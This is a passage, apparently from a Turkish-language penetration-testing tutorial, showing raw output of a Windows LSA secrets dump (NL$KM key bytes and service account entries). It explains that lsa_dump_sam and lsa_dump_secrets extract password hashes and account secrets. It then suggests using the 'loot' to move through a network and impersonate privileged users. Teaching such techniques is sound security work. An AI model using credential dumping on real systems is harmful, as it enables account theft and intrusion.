 ```shell-session
old/hex : ca 66 0b f5 42 90 b1 2b 64 a0 c5 87 a7 db 9a 8a 2e c8 e9 13 e6 5f 17 a9 42 93 c2 e3 4c 8c c3 59 b8 c2 dd 12 a9 6a b2 4c 22 61 5f 1f ab ab ff 0c e0 93 e2 e6 bf ea e7 16 

Secret  : NL$KM
cur/hex : 91 de 7a b2 cb 48 86 4d cf a3 df ae bb 3d 01 40 ba 37 2e d9 56 d1 d7 85 cf 08 82 93 a2 ce 5f 40 66 02 02 e1 1a 9c 7f bf 81 91 f0 0f f2 af da ed ac 0a 1e 45 9e 86 9f e7 bd 36 eb b2 2a 82 83 2f 

Secret  : SAC

Secret  : SAI

Secret  : SCM:{148f1a14-53f3-4074-a573-e1ccd344e1d0}

Secret  : SCM:{3D14228D-FBE1-11D0-995D-00C04FD919C1}

Secret  : _SC_Alerter / service 'Alerter' with username : NT AUTHORITY\LocalService

Secret  : _SC_ALG / service 'ALG' with username : NT AUTHORITY\LocalService

Secret  : _SC_aspnet_state / service 'aspnet_state' with username : NT AUTHORITY\NetworkService

Secret  : _SC_Dhcp / service 'Dhcp' with username : NT AUTHORITY\NetworkService

Secret  : _SC_Dnscache / service 'Dnscache' with username : NT AUTHORITY\NetworkService

Secret  : _SC_LicenseService / service 'LicenseService' with username : NT AUTHORITY\NetworkService

Secret  : _SC_LmHosts / service 'LmHosts' with username : NT AUTHORITY\LocalService

Secret  : _SC_MSDTC / service 'MSDTC' with username : NT AUTHORITY\NetworkService

Secret  : _SC_RpcLocator / service 'RpcLocator' with username : NT AUTHORITY\NetworkService

Secret  : _SC_RpcSs / service 'RpcSs' with username : NT AUTHORITY\NetworkService

Secret  : _SC_stisvc / service 'stisvc' with username : NT AUTHORITY\LocalService

Secret  : _SC_TlntSvr / service 'TlntSvr' with username : NT AUTHORITY\LocalService

Secret  : _SC_WebClient / service 'WebClient' with username : NT AUTHORITY\LocalService
```

**`lsa_dump_sam`**, kullanıcı hesaplarının parolalarının hash'lerini çıkartırken, **`lsa_dump_secrets`** daha fazla bilgi sunarak hem kullanıcı hem de uygulama hesaplarına ait şifrelenmiş verileri elde eder. Bu iki komut, sistemin güvenlik durumunu analiz etmek için farklı perspektifler sunar.

Bu noktadan sonra, eğer makine daha kapsamlı bir ağa bağlıysa, bu ganimeti sistemde gezinmek, dahili kaynaklara erişim sağlamak ve ağın genel güvenlik duruşu zayıfsa daha yüksek erişim seviyesine sahip kullanıcıları taklit etmek için kullanabiliriz.

